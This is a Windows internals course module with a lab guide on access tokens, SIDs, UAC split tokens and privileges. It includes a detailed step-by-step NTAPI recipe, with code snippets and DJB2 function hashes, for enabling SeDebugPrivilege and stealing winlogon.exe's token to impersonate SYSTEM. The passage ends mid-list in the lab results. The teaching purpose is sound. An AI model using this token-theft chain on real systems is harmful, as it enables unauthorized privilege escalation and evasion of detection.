


# Module 3.3: Windows Security Model (Tokens, SIDs, Privileges, Integrity Levels, and Impersonation)

## 1. First Principles: How Does the Kernel Decide "Access Granted" vs. `STATUS_ACCESS_DENIED` (`0xC0000022`)?

In Lab 3.1 and Lab 3.2, your `main.exe` opened a handle to `notepad.exe` via `NtOpenProcess`, and the Kernel immediately said **Yes** (`0x00000000` `STATUS_SUCCESS`).
Why did the Kernel allow `main.exe` to open `notepad.exe`?
Because both `main.exe` and `notepad.exe` were started by the **same logged-in user** (`VIRT-WINDOWS\cyber`).

Now imagine you change `"notepad.exe"` to a critical Windows background service like **`winlogon.exe`** or **`services.exe`** (which run under the built-in OS account **`NT AUTHORITY\SYSTEM`**), and you ask `NtOpenProcess` for `PROCESS_ALL_ACCESS`.
- If you run `main.exe` as a normal user, `NtOpenProcess` fails immediately with **`0xC0000022` (`STATUS_ACCESS_DENIED`)**.
- What surprises most people is: **even if you run `main.exe` as Administrator**, `NtOpenProcess(..., PROCESS_ALL_ACCESS, ...)` on many system processes *still* fails with `STATUS_ACCESS_DENIED`—until your code explicitly turns on a special switch inside its own process called **`SeDebugPrivilege`**!

To understand why—and how a process can elevate its privileges or even **impersonate `NT AUTHORITY\SYSTEM`**—we need to look inside the Kernel's **Security Reference Monitor (SRM)**.

### The Three Pieces of Every Kernel Security Check (`SeAccessCheck`)
Every time your code calls an `NtOpen*` syscall (`NtOpenProcess`, `NtOpenThread`, `NtOpenFile`), the Kernel's Object Manager calls **`ntoskrnl.exe!SeAccessCheck`**, which compares three things:

```text
+----------------------------------+         +--------------------------------------+
| 1. THE SUBJECT (Who are you?)    |         | 2. THE OBJECT (What are you opening?)|
|                                  |         |                                      |
| Process A's Access Token (_TOKEN)|         | Target Object's _SECURITY_DESCRIPTOR |
|   - User SID: S-1-5-21-...-1001  |         |   - Owner SID: S-1-5-18 (SYSTEM)     |
|   - Group SIDs: Administrators   |         |   - DACL (Who is allowed what?)      |
|   - Integrity Level: High (0x3000|         |   - Mandatory Label: System (0x4000) |
|   - Privileges: SeDebugPrivilege |         +------------------+-------------------+
+-----------------+----------------+                            |
                  |                                             |
                  +----------------------+----------------------+
                                         |
                                         v
                    +-----------------------------------------+
                    | 3. THE REQUEST (DesiredAccess)          |
                    |    e.g., PROCESS_VM_READ (0x0010)       |
                    |                                         |
                    | Kernel SRM (SeAccessCheck):             |
                    |   Step A: Does Subject have an enabled  |
                    |           Privilege that bypasses DACL? |
                    |   Step B: Does Subject's Integrity Level|
                    |           meet Object's Mandatory Label?|
                    |   Step C: Do DACL rules grant all bits  |
                    |           in DesiredAccess to Subject?  |
                    +-----------------------------------------+
```

Let's break down the **Subject (`_TOKEN`)** from first principles.

---

## 2. Anatomy of an Access Token (`_TOKEN`)

Whenever you log into Windows, `lsass.exe` (the Local Security Authority Subsystem Service) verifies your password and asks the Kernel (`NtCreateToken`) to create a Kernel object called an **Access Token (`_TOKEN`)**.
That `_TOKEN` is attached to your `explorer.exe` process (`EPROCESS.Token`), and **every child process you launch inherits a copy of its parent's `_TOKEN`**.

Inside Ring 0, a `_TOKEN` object acts like an ID badge with **four critical sections**:

```text
+===================================================================================+
|                           KERNEL _TOKEN OBJECT (Ring 0)                           |
+===================================================================================+
| 1. USER SID (Who owns this token?)                                                |
|    UserAndGroups[0]: S-1-5-21-3842939050-...-1001  ("VIRT-WINDOWS\cyber")         |
+-----------------------------------------------------------------------------------+
| 2. GROUP SIDs (What groups is this user in?)                                      |
|    UserAndGroups[1]: S-1-5-32-545  ("BUILTIN\Users")          [Enabled]           |
|    UserAndGroups[2]: S-1-5-32-544  ("BUILTIN\Administrators") [Deny-Only or Enab] |
|    UserAndGroups[3]: S-1-5-11      ("NT AUTHORITY\Authenticated Users")           |
+-----------------------------------------------------------------------------------+
| 3. MANDATORY INTEGRITY LEVEL (How trustworthy is this process?)                   |
|    IntegrityLevelIndex ---> S-1-16-8192  (Medium Integrity - Normal Desktop App)  |
|                         or  S-1-16-12288 (High Integrity   - Run as Administrator)|
|                         or  S-1-16-16384 (System Integrity - SYSTEM Services)     |
+-----------------------------------------------------------------------------------+
| 4. PRIVILEGES (_SEP_TOKEN_PRIVILEGES - What OS superpowers does this token hold?) |
|    Present Bitmask:  0x000000011E880000 (Which privileges exist in this token)    |
|    Enabled Bitmask:  0x0000000000800000 (Which privileges are currently TURNED ON)|
|      - LUID 19 (SeShutdownPrivilege):        Present = 1, Enabled = 0 (Disabled)  |
|      - LUID 20 (SeDebugPrivilege):           Present = 1, Enabled = 0 (Disabled!) |
|      - LUID 23 (SeChangeNotifyPrivilege):    Present = 1, Enabled = 1 (Enabled)   |
|      - LUID 29 (SeImpersonatePrivilege):     Present = 1, Enabled = 1 (Enabled)   |
+===================================================================================+
```

Let's examine each of these four parts so you understand how they interact!

---

### Part 1 & 2: SIDs (Security Identifiers)

The Windows Kernel never stores usernames like `"cyber"` or `"SYSTEM"` inside ACLs or Tokens. Strings are slow to compare and can change if a user renames their account.
Instead, Windows identifies every user, group, and computer using a binary structure called a **SID (Security Identifier)**, which is printed in text as:

```text
S - 1 - 5 - 21 - 3842939050 - 129837123 - 981723981 - 1001
|   |   |   |-------------------|--------------------|   |
|   |   |                       |                        +-- RID (Relative ID: 1001 = first local user)
|   |   |                       +--------------------------- 96-bit Machine/Domain Unique ID
|   |   +--------------------------------------------------- Identifier Authority (5 = NT Authority)
|   +------------------------------------------------------- Revision Level (Always 1)
+----------------------------------------------------------- Literal "S" (SID)
```

#### Well-Known SIDs You Will See Everywhere in Windows Internals
Because machine IDs change from PC to PC, Windows reserves fixed SIDs (**Well-Known SIDs**) that are identical on every Windows machine on Earth:

| SID String | Account / Group Name | Meaning |
| :--- | :--- | :--- |
| **`S-1-5-18`** | `NT AUTHORITY\SYSTEM` (`LocalSystem`) | The highest-privileged local OS account (`services.exe`, `lsass.exe`, `winlogon.exe`). |
| **`S-1-5-19`** | `NT AUTHORITY\LOCAL SERVICE` | Low-privilege service account with anonymous network access. |
| **`S-1-5-20`** | `NT AUTHORITY\NETWORK SERVICE` | Service account that authenticates to the network as the computer account. |
| **`S-1-5-32-544`** | `BUILTIN\Administrators` | The local Administrators group! |
| **`S-1-5-32-545`** | `BUILTIN\Users` | The local standard Users group. |
| **`S-1-5-21-...-500`** | `Administrator` | The built-in local Administrator account (RID is always `500`). |
| **`S-1-5-21-...-1001+`**| `cyber` (Normal User Accounts) | User accounts created after installation start at RID `1000` or `1001`. |

---

### Part 3: UAC Split Tokens & Mandatory Integrity Control (MIC)

Here is a question that confuses many developers:
*"My user account `cyber` is in the `Administrators` group! Why can't my normal `cmd.exe` modify system files or open elevated processes without clicking 'Run as administrator'?"*

Because of **UAC (User Account Control) Split Tokens** and **Integrity Levels**!
When you log into Windows with an account that belongs to `BUILTIN\Administrators`, `lsass.exe` actually creates **TWO tokens** for you at login:

```text
                       [ User 'cyber' Logs In ]
                                  |
                 +----------------+----------------+
                 |                                 |
                 v                                 v
+---------------------------------+   +---------------------------------+
| 1. FILTERED TOKEN (Default)     |   | 2. ELEVATED TOKEN (Admin)       |
| Given to explorer.exe by default|   | Used ONLY when you click "Yes"  |
|                                 |   | on a UAC Shield Prompt!         |
| - Integrity: Medium (S-1-16-8192|   | - Integrity: High (S-1-16-12288)|
| - Administrators Group:         |   | - Administrators Group:         |
|     SE_GROUP_USE_FOR_DENY_ONLY! |   |     SE_GROUP_ENABLED!           |
| - Privileges:                   |   | - Privileges:                   |
|     Only 5 basic privileges!    |   |     20+ Admin privileges        |
|     (SeDebugPrivilege STRIPPED!)|   |     (SeDebugPrivilege PRESENT!) |
+---------------------------------+   +---------------------------------+
```

Look closely at the **Filtered Token** (left box):
1. Its **Integrity Level** is **`Medium` (`S-1-16-8192`)**. In Windows, a lower-integrity process (`Low` or `Medium`) is blocked from opening write/inject handles to a higher-integrity process (`High` or `System`), even if both processes are owned by the exact same user `cyber`!
2. Even more importantly, **`SeDebugPrivilege` is completely stripped (`Present = 0`)** from the Filtered Token! You cannot enable a privilege that is not `Present` in your token.
3. When you right-click Command Prompt and choose **Run as administrator**, the AppInfo service (`svchost.exe`) spawns `cmd.exe` using your **Elevated Token** (`High` integrity, `S-1-16-12288`), which has `SeDebugPrivilege` **Present** in the token!

---

### Part 4: Token Privileges & The `SeDebugPrivilege` Secret

Look back at the `_TOKEN` diagram in Section 2:
Even when you run `cmd.exe` **as Administrator** (using the **Elevated Token**), look at `SeDebugPrivilege`:
- **`Present` = `1`** (Your token *has* the `SeDebugPrivilege` superpower in its pocket)
- **`Enabled` = `0`** (That superpower is currently **switched OFF**!)

#### Why Is `SeDebugPrivilege` Disabled by Default in an Admin Token?
Imagine you are driving a tank with a safety switch on the main cannon. Even though you are the tank commander (Administrator), the safety switch (`Enabled = 0`) prevents you from accidentally blowing up a critical OS process unless you deliberately flip the switch to `Enabled = 1`!

#### How `SeDebugPrivilege` Works Inside `ntoskrnl.exe!PsOpenProcess`
When you call `NtOpenProcess`, here is the actual logic inside the Windows Kernel (`PsOpenProcess`):

```text
Inside Kernel (ntoskrnl.exe!PsOpenProcess):
  if (SeSinglePrivilegeCheck(SeDebugPrivilege, PreviousMode) == TRUE) {
      // Caller's token has SeDebugPrivilege PRESENT *AND* ENABLED!
      // BYPASS the target process's DACL completely and grant the requested Access Mask!
      GrantAccess(DesiredAccess);
  } else {
      // Caller does NOT have SeDebugPrivilege enabled.
      // Perform normal DACL check (SeAccessCheck) -> returns STATUS_ACCESS_DENIED for SYSTEM processes!
  }
```

> [!IMPORTANT]
> **How Does the Kernel Identify `SeDebugPrivilege`?**
> Just like usernames, the Kernel does not use the string `"SeDebugPrivilege"` in syscalls!
> Every privilege has a fixed integer ID called a **`LUID` (Locally Unique Identifier)**:
> ```text
> typedef struct _LUID {
>     DWORD LowPart;
>     LONG  HighPart;
> } LUID, *PLUID;
> ```
> On every version of Windows NT, the `LUID` for **`SeDebugPrivilege`** is always **`LowPart = 20, HighPart = 0`**!
> And the `LUID` for **`SeImpersonatePrivilege`** is always **`LowPart = 29, HighPart = 0`**!

To turn `SeDebugPrivilege` ON inside your process, you don't even need `Advapi32.dll!LookupPrivilegeValue`—you simply:
1. Open your own process token via **`NtOpenProcessToken((HANDLE)-1, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)`**.
2. Create a `TOKEN_PRIVILEGES` struct with `Luid.LowPart = 20`, `Luid.HighPart = 0`, and `Attributes = SE_PRIVILEGE_ENABLED` (`0x00000002`).
3. Call **`NtAdjustPrivilegesToken(hToken, FALSE, &tp, sizeof(tp), NULL, NULL)`**!

---

## 3. Primary Tokens vs. Impersonation Tokens (How `SYSTEM` Token Theft Works)

Enabling `SeDebugPrivilege` in an Administrator (`High` integrity) process lets you open handles to `SYSTEM` processes like `winlogon.exe`.
Wait: even with `SeDebugPrivilege` enabled, your `main.exe` is still running as user `VIRT-WINDOWS\cyber` (`High` integrity). What if you want your thread to actually **become `NT AUTHORITY\SYSTEM` (`S-1-5-18`, `System` integrity)**?

You can do that using **Token Impersonation**!

### How Process Tokens and Thread Tokens Work Together
In Windows, every **Process (`EPROCESS`)** has one **Primary Token (`TokenPrimary = 1`)**.
By default, individual **Threads (`ETHREAD`)** inside a process do **not** have their own token (`ETHREAD.ClientSecurity = NULL`), so whenever a thread makes a syscall, the Kernel checks the Process's Primary Token.

However, Windows allows any thread to attach an **Impersonation Token (`TokenImpersonation = 2`)** to itself!
When a thread has an Impersonation Token attached, **the Kernel ignores the Process's Primary Token for that thread and checks the Thread's Impersonation Token instead!**

```text
BEFORE IMPERSONATION:
  Process (main.exe) Primary Token: [ User: cyber | Integrity: High ]
    |
    +---> Thread #0 (Impersonation Token = NULL)
            Effective Identity checked by Kernel: "VIRT-WINDOWS\cyber"

AFTER IMPERSONATION (Stealing winlogon.exe's SYSTEM Token):
  Process (main.exe) Primary Token: [ User: cyber | Integrity: High ] (Unchanged)
    |
    +---> Thread #0 (Impersonation Token = Duplicated winlogon.exe Token!)
            Effective Identity checked by Kernel: "NT AUTHORITY\SYSTEM" (S-1-5-18)!
```

### The 4 Step Chain to Impersonate `NT AUTHORITY\SYSTEM`

Once your `main.exe` has enabled `SeDebugPrivilege` (`LUID = 20`), here is the exact 4-step NTAPI chain to steal `winlogon.exe`'s `SYSTEM` token and attach it to your thread:

```text
Step 1 (NtOpenProcess):
  Open a handle to winlogon.exe (PID found via NtQuerySystemInformation)
  with DesiredAccess = PROCESS_QUERY_LIMITED_INFORMATION (0x1000).
  ---> Returns hWinlogonProcess

Step 2 (NtOpenProcessToken):
  Open winlogon.exe's Primary Token using hWinlogonProcess
  with DesiredAccess = TOKEN_DUPLICATE | TOKEN_QUERY (0x0002 | 0x0008).
  ---> Returns hSystemToken (a Primary Token owned by NT AUTHORITY\SYSTEM)

Step 3 (NtDuplicateToken):
  Convert hSystemToken into an Impersonation Token (TokenImpersonation = 2)
  with ImpersonationLevel = SecurityImpersonation (2).
  ---> Returns hDupSystemToken

Step 4 (NtSetInformationThread):
  Attach hDupSystemToken to our current thread ((HANDLE)-2 = NtCurrentThread())
  using ThreadImpersonationToken (info class 5).
  ---> Our thread is now running as NT AUTHORITY\SYSTEM!
```

---

## 4. Deep Dive: Exact NTAPI Signatures, Structs, and DJB2 Hashes for Module 3.3

Here are the 4 new `ntdll.dll` syscalls we will resolve by DJB2 hash in Lab 3.3:

| Function Name | DJB2 Hash | Purpose |
| :--- | :--- | :--- |
| **`NtOpenProcessToken`** | **`0x7BD07459`** | Opens the Primary `_TOKEN` handle of any process (`(HANDLE)-1` or `hWinlogonProcess`). |
| **`NtAdjustPrivilegesToken`** | **`0x6921F9CD`** | Enables or disables privileges (like `SeDebugPrivilege`, `LUID = 20`) inside a token. |
| **`NtDuplicateToken`** | **`0x3000ECC3`** | Clones an existing token into a new Primary or Impersonation token. |
| **`NtSetInformationThread`** | **`0x54212E31`** | Attaches an Impersonation Token (`ThreadImpersonationToken = 5`) to a thread (`(HANDLE)-2`). |

Let's examine the parameters of each of these 4 functions!

---

### 1. `NtOpenProcessToken` (DJB2 Hash: `0x7BD07459`)
```text
typedef NTSTATUS (NTAPI *fnNtOpenProcessToken)(
    HANDLE      ProcessHandle, // 1. [in]  (HANDLE)-1 for current process, or hWinlogonProcess
    ACCESS_MASK DesiredAccess, // 2. [in]  TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY (for self)
                               //          or TOKEN_DUPLICATE | TOKEN_QUERY (for winlogon.exe)
    PHANDLE     TokenHandle    // 3. [out] Pointer to HANDLE receiving the opened token
);
```

---

### 2. `NtAdjustPrivilegesToken` (DJB2 Hash: `0x6921F9CD`)
```text
typedef NTSTATUS (NTAPI *fnNtAdjustPrivilegesToken)(
    HANDLE            TokenHandle,          // 1. [in]  Token handle from NtOpenProcessToken
    BOOLEAN           DisableAllPrivileges, // 2. [in]  Pass FALSE (we want to enable a specific privilege)
    PTOKEN_PRIVILEGES NewState,             // 3. [in]  Pointer to our TOKEN_PRIVILEGES struct (&tp)
    ULONG             BufferLength,         // 4. [in]  sizeof(TOKEN_PRIVILEGES)
    PTOKEN_PRIVILEGES PreviousState,        // 5. [out] Pass NULL (we don't need the old state back)
    PULONG            ReturnLength          // 6. [out] Pass NULL
);
```

#### How to Fill `TOKEN_PRIVILEGES` (Already Defined in `<windows.h>`)
`<windows.h>` already defines `TOKEN_PRIVILEGES` and `SE_PRIVILEGE_ENABLED` (`0x00000002`). To enable `SeDebugPrivilege` (`LUID = 20`), you simply initialize it like this:

```text
TOKEN_PRIVILEGES tp = { 0 };
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid.LowPart  = 20; // LUID 20 = SeDebugPrivilege!
tp.Privileges[0].Luid.HighPart = 0;
tp.Privileges[0].Attributes    = SE_PRIVILEGE_ENABLED;
```

> [!WARNING]
> **Watch Out for `STATUS_NOT_ALL_ASSIGNED` (`0x00000106`)!**
> What happens if you forget to run your terminal **as Administrator** and call `NtAdjustPrivilegesToken` to enable `SeDebugPrivilege`?
> Because a non-elevated (`Medium` integrity) token does **not** have `SeDebugPrivilege` in its `Present` bitmask, the Kernel cannot enable it—and `NtAdjustPrivilegesToken` returns **`0x00000106` (`STATUS_NOT_ALL_ASSIGNED`)** instead of `0x00000000` (`STATUS_SUCCESS`)!
> Checking `if (ntStatus != 0x00000000)` immediately catches if your program was launched without Administrator rights!

---

### 3. `NtDuplicateToken` (DJB2 Hash: `0x3000ECC3`)
```text
typedef NTSTATUS (NTAPI *fnNtDuplicateToken)(
    HANDLE             ExistingTokenHandle, // 1. [in]  hSystemToken (opened from winlogon.exe)
    ACCESS_MASK        DesiredAccess,       // 2. [in]  Pass TOKEN_ALL_ACCESS
    POBJECT_ATTRIBUTES ObjectAttributes,    // 3. [in]  Pointer to OBJECT_ATTRIBUTES holding SQOS!
    BOOLEAN            EffectiveOnly,       // 4. [in]  Pass FALSE
    TOKEN_TYPE         TokenType,           // 5. [in]  Pass TokenImpersonation (2)
    PHANDLE            NewTokenHandle       // 6. [out] Receives the duplicated token (&hDupToken)
);
```

#### Crucial Detail: How Does `NtDuplicateToken` Know the Impersonation Level?
Look closely at the 6 parameters of `NtDuplicateToken` above. Notice there is no `ImpersonationLevel` argument!
Instead, `NtDuplicateToken` reads the Impersonation Level from the 6th field of `OBJECT_ATTRIBUTES`: **`SecurityQualityOfService`**!
If you pass `NULL` for `ObjectAttributes` (or leave `SecurityQualityOfService` as `NULL`), the Kernel creates an `Anonymous` token that cannot be used for impersonation!
Here is how you initialize `SECURITY_QUALITY_OF_SERVICE` (already defined in `<windows.h>`) and link it into `OBJECT_ATTRIBUTES`:

```text
SECURITY_QUALITY_OF_SERVICE sqos = { 0 };
sqos.Length              = sizeof(SECURITY_QUALITY_OF_SERVICE);
sqos.ImpersonationLevel  = SecurityImpersonation;     // 2 = Can act as the user locally!
sqos.ContextTrackingMode = SECURITY_DYNAMIC_TRACKING; // TRUE (1)
sqos.EffectiveOnly       = FALSE;

OBJECT_ATTRIBUTES tokenOa = { 0 };
tokenOa.Length                   = sizeof(OBJECT_ATTRIBUTES);
tokenOa.SecurityQualityOfService = &sqos; // <--- NtDuplicateToken reads sqos from here!
```

---

### 4. `NtSetInformationThread` (DJB2 Hash: `0x54212E31`)
```text
typedef NTSTATUS (NTAPI *fnNtSetInformationThread)(
    HANDLE          ThreadHandle,          // 1. [in] Pass (HANDLE)-2 (pseudo-handle for Current Thread!)
    ULONG           ThreadInformationClass,// 2. [in] Pass 5 (ThreadImpersonationToken!)
    PVOID           ThreadInformation,     // 3. [in] Pointer to the token handle (&hDupToken)
    ULONG           ThreadInformationLength// 4. [in] sizeof(HANDLE) (8 bytes on x64)
);
```

| # | Parameter | What We Pass | Why? |
| :- | :--- | :--- | :--- |
| 1 | `ThreadHandle` | `(HANDLE)-2` | Just like `(HANDLE)-1` is the pseudo-handle for the **Current Process** (`NtCurrentProcess()`), **`(HANDLE)-2`** is the Kernel pseudo-handle for the **Current Thread** (`NtCurrentThread()`)! |
| 2 | `ThreadInformationClass` | `5` (`ThreadImpersonationToken`) | Information class `5` tells the Kernel to attach an Impersonation Token to `ETHREAD.ClientSecurity`. |
| 3 | `ThreadInformation` | `&hDupToken` | Address of our `HANDLE hDupToken` variable from `NtDuplicateToken`. *(Note: To stop impersonating and revert back to your normal user, you can pass a pointer to a `NULL` handle!)* |
| 4 | `ThreadInformationLength` | `sizeof(HANDLE)` | Size of a `HANDLE` (`8` bytes on 64-bit Windows). |

---

## 5. Lab 3.3 Step-by-Step Guide: Enable `SeDebugPrivilege` & Impersonate `NT AUTHORITY\SYSTEM`

In Lab 3.3 (`windows/labs/lab-3.3/main.cpp`), you will:
1. Enable **`SeDebugPrivilege` (`LUID = 20`)** on `main.exe`'s own token using `NtOpenProcessToken` + `NtAdjustPrivilegesToken`.
2. Find **`winlogon.exe`** using your `NtQuerySystemInformation(5)` process enumerator.
3. Open `winlogon.exe` (`NtOpenProcess`), open its `SYSTEM` token (`NtOpenProcessToken`), duplicate it into an Impersonation Token (`NtDuplicateToken`), and attach it to your current thread (`NtSetInformationThread` on `(HANDLE)-2`)!
4. Print the current thread's username (`GetUserNameA` / `GetUserNameW`) **before** and **after** impersonation, and inspect both tokens live in **System Informer**!

> [!IMPORTANT]
> **Preparation on Your Windows 11 VM:**
> Open your **x64 Native Tools Command Prompt** by right-clicking it and selecting **Run as administrator**!
> Why? Because `SeDebugPrivilege` is only `Present` in an elevated (`High` integrity) token!

### Step 1: Add the 4 New Function Pointer Typedefs
Copy your `windows/labs/lab-3.1/main.cpp` (or `lab-3.2/main.cpp`) into `windows/labs/lab-3.3/main.cpp`, and add the four new typedefs:

```text
typedef NTSTATUS (NTAPI *fnNtOpenProcessToken)(
    HANDLE      ProcessHandle,
    ACCESS_MASK DesiredAccess,
    PHANDLE     TokenHandle
);

typedef NTSTATUS (NTAPI *fnNtAdjustPrivilegesToken)(
    HANDLE            TokenHandle,
    BOOLEAN           DisableAllPrivileges,
    PTOKEN_PRIVILEGES NewState,
    ULONG             BufferLength,
    PTOKEN_PRIVILEGES PreviousState,
    PULONG            ReturnLength
);

typedef NTSTATUS (NTAPI *fnNtDuplicateToken)(
    HANDLE             ExistingTokenHandle,
    ACCESS_MASK        DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    BOOLEAN            EffectiveOnly,
    TOKEN_TYPE         TokenType,
    PHANDLE            NewTokenHandle
);

typedef NTSTATUS (NTAPI *fnNtSetInformationThread)(
    HANDLE ThreadHandle,
    ULONG  ThreadInformationClass,
    PVOID  ThreadInformation,
    ULONG  ThreadInformationLength
);
```

### Step 2: Resolve the Syscalls by DJB2 Hash
Using `CustomGetProcAddressByHash(ntdllHmodule, ...)`, resolve:
- `NtQuerySystemInformation`: `0xEE4F73A8`
- `NtOpenProcess`: `0x5003C058`
- `NtClose`: `0x8B8E133D`
- `NtAllocateVirtualMemory`: `0x6793C34C`
- `NtOpenProcessToken`: **`0x7BD07459`**
- `NtAdjustPrivilegesToken`: **`0x6921F9CD`**
- `NtDuplicateToken`: **`0x3000ECC3`**
- `NtSetInformationThread`: **`0x54212E31`**

### Step 3: Enable `SeDebugPrivilege` (`LUID = 20`) on `main.exe` (`(HANDLE)-1`)
1. Open `main.exe`'s own Primary Token:
   ```text
   HANDLE hCurrentToken = NULL;
   ntStatus = NtOpenProcessToken((HANDLE)-1, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hCurrentToken);
   ```
2. Set up `TOKEN_PRIVILEGES` for `LUID = 20` (`SeDebugPrivilege`):
   ```text
   TOKEN_PRIVILEGES tp = { 0 };
   tp.PrivilegeCount = 1;
   tp.Privileges[0].Luid.LowPart  = 20;
   tp.Privileges[0].Luid.HighPart = 0;
   tp.Privileges[0].Attributes    = SE_PRIVILEGE_ENABLED;
   ```
3. Call `NtAdjustPrivilegesToken(hCurrentToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL);`
4. Check `if (ntStatus != 0x00000000)` (remember: if you didn't run the terminal as Administrator, it will return `0x00000106` `STATUS_NOT_ALL_ASSIGNED`!).
5. Print a success message confirming `SeDebugPrivilege` (`LUID 20`) is now **Enabled**!

### Step 4: Find `winlogon.exe`'s PID in Your `NtQuerySystemInformation` Loop
In your `SYSTEM_PROCESS_INFORMATION` loop, search for `L"winlogon.exe"` (`_wcsicmp(L"winlogon.exe", currSystemProcessInformation->ImageName.Buffer) == 0`) and save its PID in `DWORD winlogonPID`.

### Step 5: Open `winlogon.exe` and Duplicate Its `SYSTEM` Token
1. Call `NtOpenProcess(&winlogonHandle, PROCESS_QUERY_LIMITED_INFORMATION, &oa, &cid)` using `winlogonPID`.
2. Call `NtOpenProcessToken(winlogonHandle, TOKEN_DUPLICATE | TOKEN_QUERY, &hSystemToken)` to open `winlogon.exe`'s Primary Token.
3. Set up `SECURITY_QUALITY_OF_SERVICE sqos` (`ImpersonationLevel = SecurityImpersonation`) and `OBJECT_ATTRIBUTES tokenOa` (`tokenOa.SecurityQualityOfService = &sqos`).
4. Call `NtDuplicateToken(hSystemToken, TOKEN_ALL_ACCESS, &tokenOa, FALSE, TokenImpersonation, &hDupToken)` to create an Impersonation Token (`hDupToken`).

### Step 6: Impersonate `SYSTEM` on Your Current Thread (`(HANDLE)-2`)!
1. Before calling `NtSetInformationThread`, print the current username using `GetUserNameA`:
   - *(Note: Add `#pragma comment(lib, "Advapi32.lib")` at the top of `main.cpp` or pass `advapi32.lib` to `cl.exe` so `GetUserNameA` links cleanly!)*
   ```text
   char usernameBefore[256] = { 0 };
   DWORD usernameLen = sizeof(usernameBefore);
   GetUserNameA(usernameBefore, &usernameLen);
   printf("[*] Username BEFORE impersonation: %s\n", usernameBefore);
   ```
2. Attach `hDupToken` to the current thread (`(HANDLE)-2`) using `NtSetInformationThread` (`ThreadImpersonationToken = 5`):
   ```text
   ntStatus = NtSetInformationThread((HANDLE)-2, 5, &hDupToken, sizeof(HANDLE));
   ```
3. Call `GetUserNameA` again right after `NtSetInformationThread` and print the new username:
   ```text
   char usernameAfter[256] = { 0 };
   usernameLen = sizeof(usernameAfter);
   GetUserNameA(usernameAfter, &usernameLen);
   printf("[+] Username AFTER impersonation:  %s\n", usernameAfter);
   ```
4. Pause at `getchar()` before closing your handles so you can inspect `main.exe` in **System Informer**!

---

## 6. Visual Verification in System Informer (While Paused at `getchar()`)

Open **System Informer** (as Administrator) and check two places inside **`main.exe`**:

1. **Check `SeDebugPrivilege` in `main.exe`'s Primary Token:**
   - Double-click **`main.exe`** $\rightarrow$ click the **Token** tab.
   - Look at the **Privileges** list: **`SeDebugPrivilege`** (`Debug programs`) will be highlighted in **green** with status **`Enabled`**!
2. **Check Your Thread's `NT AUTHORITY\SYSTEM` Impersonation Token:**
   - Still inside `main.exe` Properties, click the **Handles** tab: you will see two **`Token`** handles (`VIRT-WINDOWS\cyber` and **`NT AUTHORITY\SYSTEM`**!).
   - Or click the **Threads** tab $\rightarrow$ right-click your `main.exe` thread $\rightarrow$ click **Token** to view the live `NT AUTHORITY\SYSTEM` (`S-1-5-18`) Impersonation Token attached to your thread!

### Deliverables to Report Back:
1. Your implementation in `windows/labs/lab-3.3/main.cpp` and screenshots showing:
   - Your console output (`Username BEFORE impersonation: cyber` $\rightarrow$ `Username AFTER impersonation: SYSTEM`) alongside System Informer's **Token** / **Handles** tab for `main.exe`!
2. Why does `NtAdjustPrivilegesToken` return `0x00000106` (`STATUS_NOT_ALL_ASSIGNED`) if you run `main.exe` in a normal (non-elevated) Command Prompt?
3. What is the difference between a process's **Primary Token** (`EPROCESS.Token`) and a thread's **Impersonation Token** (`ETHREAD.ClientSecurity`), and which one does the Kernel check first when a thread makes a syscall?

---

## 7. Lab 3.3 Results & Findings

### Implementation (`windows/labs/lab-3.3/main.cpp`)
In [`windows/labs/lab-3.3/main.cpp`](labs/lab-3.3/main.cpp), we built a zero-Advapi32 token privilege adjuster and `NT AUTHORITY\SYSTEM` token impersonator using pure `ntdll.dll` syscalls resolved by DJB2 hash:
1. **Resolved 8 Native Syscalls by DJB2 Hash:**
   - `NtQuerySystemInformation` (`0xEE4F73A8`, ordinal `523`)
   - `NtOpenProcess` (`0x5003C058`, ordinal `444`)
   - `NtClose` (`0x8B8E133D`, ordinal `262`)
   - `NtAllocateVirtualMemory` (`0x6793C34C`, ordinal `222`)
   - `NtOpenProcessToken` (`0x7BD07459`, ordinal `445`)
